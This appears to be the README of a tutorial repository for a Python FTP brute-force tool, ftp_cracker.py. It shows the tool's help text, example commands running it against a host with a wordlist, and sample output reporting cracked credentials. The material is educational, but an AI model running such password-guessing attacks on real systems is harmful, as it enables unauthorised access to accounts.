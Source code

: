# [How to Brute Force FTP Servers in Python](https://www.thepythoncode.com/article/brute-force-attack-ftp-servers-using-ftplib-in-python)
To run this:
- `pip3 install -r requirements.txt`
- Use `ftp_cracker.py` for fast brute force:
    ```
    python ftp_cracker.py --help
    ```
    **Output:**
    ```
    usage: ftp_cracker.py [-h] [-u USER] [-p PASSLIST] [-t THREADS] host

    FTP Cracker made with Python

    positional arguments:
    host                  The target host or IP address of the FTP server

    optional arguments:
    -h, --help            show this help message and exit
    -u USER, --user USER  The username of target FTP server
    -p PASSLIST, --passlist PASSLIST
                            The path of the pass list
    -t THREADS, --threads THREADS
                            Number of workers to spawn for logining, default is 30
    ```
- If you want to use the wordlist `wordlist.txt` in the current directory against the host `192.168.1.2` (can be domain or private/public IP address) with the user `user`:
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt
    ```
- You can also tweak the number of threads to spawn (can be faster, default is 30):
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt --threads 35
    ```
- Output can be something like this:
    ```
    [!] Trying 123456
    [!] Trying 12345
    ...
    [!] Trying sweety
    [!] Trying joseph
    [+] Found credentials:
            Host: 192.168.1.113
            User: test
            Password: abc123
    ```
##
# [[] / []]()
Атака методом перебора состоит из атаки, которая отправляет много паролей с надеждой угадать правильно. В этом уроке вы узнаете, как вы можете перебор FTP-серверов в Python.
